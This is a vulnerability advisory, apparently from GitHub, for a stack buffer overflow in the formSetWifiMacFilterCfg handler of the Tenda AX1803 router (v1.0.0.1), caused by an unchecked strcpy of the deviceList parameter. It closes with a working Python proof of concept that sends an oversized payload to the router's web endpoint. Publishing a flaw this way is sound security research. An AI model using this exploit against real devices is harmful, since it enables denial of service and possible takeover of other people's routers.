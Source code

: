 # Tenda AX1803 formSetWifiMacFilterCfg
### Overview
vendor: Tenda

product: AX1803

version: v1.0.0.1

type: Stack Overflow
### Vulnerability Description
Tenda AX1803 v1.0.0.1 were discovered to contain a stack overflow via the deviceList parameter in the formSetWifiMacFilterCfg function.

### Vulnerability details
In function formSetWifiMacFilterCfg line 64, it reads in a user-provided parameter `deviceList`. The variable `s_10` is passed as a parameter to the `sub_5E3A0` function. Function `sub_5E3A0` calls function `sub_5E250`, where the first parameter is variable `s_3`(actually the variable `s_10`) and the second parameter is the stack-based buffer `s_2`. In function `sub_5E250`, the variable `s_1`(actually the variable `s_10`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually the variable `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/5.png)
![](images/6.png)
![](images/7.png)
![](images/8.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setWifiFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```
